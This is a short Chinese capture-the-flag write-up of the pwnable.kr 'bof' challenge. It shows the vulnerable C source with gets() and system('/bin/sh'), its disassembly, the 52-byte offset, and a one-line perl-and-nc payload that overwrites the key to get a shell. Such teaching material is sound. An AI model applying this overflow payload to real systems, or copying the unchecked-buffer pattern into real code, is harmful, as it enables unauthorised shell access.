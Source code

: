 ```yaml
---
title: bof
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
  - pwnable.kr
---
```


代码如下

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme); 
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else {
        printf("Nah..\n"); 
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
{% endhighlight %}

可以看到很明显的溢出。我们之需要看汇编确定具体距离就行

<pre>
0000062c &lt;func&gt;:
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp
 632:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 638:   89 45 f4                mov    %eax,-0xc(%ebp)
 63b:   31 c0                   xor    %eax,%eax
 63d:   c7 04 24 8c 07 00 00    movl   $0x78c,(%esp)
 644:   e8 fc ff ff ff          call   645 <func+0x19>
 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>
 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
 65b:   75 0e                   jne    66b <func+0x3f>
 65d:   c7 04 24 9b 07 00 00    movl   $0x79b,(%esp)
 664:   e8 fc ff ff ff          call   665 <func+0x39>
 669:   eb 0c                   jmp    677 <func+0x4b>
 66b:   c7 04 24 a3 07 00 00    movl   $0x7a3,(%esp)
 672:   e8 fc ff ff ff          call   673 <func+0x47>
 677:   8b 45 f4                mov    -0xc(%ebp),%eax
 67a:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 681:   74 05                   je     688 <func+0x5c>
 683:   e8 fc ff ff ff          call   684 <func+0x58>
 688:   c9                      leave
 689:   c3                      ret
</pre>

buffer到目的地的距离是`0x2c+0x8=52`。所以

<pre>$ (perl -e 'print "A"x52 . "\xbe\xba\xfe\xca\n"'; cat - ) | nc pwnable.kr 9000</pre>

